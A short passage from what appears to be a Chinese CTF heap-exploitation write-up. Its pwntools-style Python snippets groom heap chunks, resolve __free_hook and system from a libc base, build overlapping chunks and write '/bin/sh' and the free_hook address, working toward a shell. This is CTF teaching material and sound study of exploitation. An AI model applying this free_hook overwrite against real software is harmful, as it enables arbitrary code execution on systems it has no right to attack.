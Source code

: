 [![](assets/1708654729-8fdb70caa002b03e828405eb4ab3e72b.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240221104125-b5265eac-d062-1.png)

```plain
for i in range(10):
    add(i,0x60,'aaaa')

for i in range(9):
    delete(9-i)

delete(2)

free_hook = libc_base + libc.sym['__free_hook']
system = libc_base + libc.sym['system']
```

然后在构造 chunk 的重叠

[![](assets/1708654729-66a07d18aa5151821defe8598e0999cc.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240221104138-bcc2501c-d062-1.png)

```plain
add(5,0x60,'/bin/sh\x00')
add(6,0x60,'aaaa')
add(7,0x60,p64(free_hook))
```
